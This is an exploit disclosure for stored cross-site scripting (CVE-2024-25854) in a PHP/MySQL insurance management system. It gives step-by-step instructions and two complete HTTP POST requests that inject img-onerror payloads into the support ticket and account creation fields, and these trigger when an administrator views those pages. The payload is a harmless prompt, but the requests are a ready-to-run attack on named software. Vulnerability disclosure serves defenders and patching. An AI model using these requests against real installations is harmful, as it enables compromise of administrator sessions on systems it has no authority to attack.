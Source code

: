 # Exploit Title: Insurance Management System PHP and MySQL 1.0 - Multiple Stored XSS
# Date: 2024-02-08
# Vendor Homepage: https://www.sourcecodester.com 
# Software Link: https://www.sourcecodester.com/php/16995/insurance-management-system-php-mysql.html
# Version: 1.0
# Tested on: Windows / PHP 8.1 & XAMPP 3.3.0
# CVE : CVE-2024-25854
## Support Ticket

Click on Support Tickets > Generate and add payload  < img src=x onerror=prompt("xss")> to Subject and Description fields, then send the request. When admin visits the Support Tickets page, XSS will be triggered.

   Example Request :
	    POST /e-insurance/Script/user/core/new_ticket HTTP/1.1
		Host: localhost
		Content-Type: application/x-www-form-urlencoded
		Content-Length: 139
		Cookie: PHPSESSID=17ot0ij8idrm2br6mmmc54fg15; __insuarance__logged=1; __insuarance__key=LG3LFIBJCN9DKVXKYS41

		category=4&subject=%3Cimg+src%3Dx+onerror%3Dprompt%28%22xss%22%29%3E&description=%3Cimg+src%3Dx+onerror%3Dprompt%28%22xss%22%29%3E&submit=1

## Create Account

Click on New Account button on login page, then fill the fields. Inject < img src=x onerror=prompt("xss") > payloads to fname, lname, city and street parameter, then click Create Account button. XSS will be triggered when admin visits Users page.

	Example Request : 
		POST /e-insurance/Script/core/new_account HTTP/1.1
		Host: localhost
		Content-Type: application/x-www-form-urlencoded
		Content-Length: 303
		Cookie: PHPSESSID=17ot0ij8idrm2br6mmmc54fg15

		fname=%3Cimg+src%3Dx+onerror%3Dprompt%28%22xss%22%29%3E&lname=%3Cimg+src%3Dx+onerror%3Dprompt%28%22xss%22%29%3E&gender=Male&phone=5554443322&city=%3Cimg+src%3Dx+onerror%3Dprompt%28%22xss%22%29%3E&street=%3Cimg+src%3Dx+onerror%3Dprompt%28%22xss%22%29%3E&email=test1%40test.com&password=Test12345&submit=1

![](XSS1.png)

![](XSS2.png)![](xss4.png)
![](xss3.png)
